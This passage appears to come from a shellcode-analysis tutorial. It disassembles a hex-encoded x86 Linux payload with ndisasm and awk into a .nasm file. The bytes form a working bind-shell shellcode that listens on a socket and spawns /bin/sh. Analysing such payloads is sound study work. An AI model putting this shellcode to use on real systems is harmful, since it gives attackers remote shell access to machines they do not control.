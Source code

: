 ![Screenshot](images/randbind/6.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```bash
echo -e "section .text\nglobal _start \n_start:" > 3.nasm

echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 3.nasm
```

![Screenshot](images/randbind/7.png)
